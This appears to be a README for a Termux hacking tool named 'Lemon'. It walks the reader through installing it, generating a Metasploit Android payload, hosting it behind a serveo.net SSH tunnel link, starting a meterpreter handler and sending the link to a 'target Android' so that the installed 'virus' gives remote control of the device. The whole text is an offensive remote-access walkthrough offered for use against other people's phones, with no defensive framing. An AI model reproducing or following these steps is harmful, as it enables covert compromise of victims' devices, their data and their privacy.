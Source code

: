 Requirements :-
1. Metasploit-Framework
2.git

Installation :-

1.Install git by typing "pkg install git"
2.Download Lemon by typing "git clone https://github.com/Lemon-Hacking/Lemon
3.Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

How to use :-

1.Run php by typing "sh php"

2.Run ssh by typing "sh ssh" and copy the link you get.   [NEW SESSION]

3.Forward TCP connections by typing "sh payload", choose a port of your own and the payload's name, it will take a little time to create and upload the payload with the specified port and name.

4.Type "sh Handler" and wait for the Handler to start, then type "set LPORT xxxx" Put your port instead of xxxx, and finally type "run"   [NEW SESSION]

5.Now, put your payload's name after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds.
  Type "?" and press enter. Now you can mess with the Android device using the commnands listed.
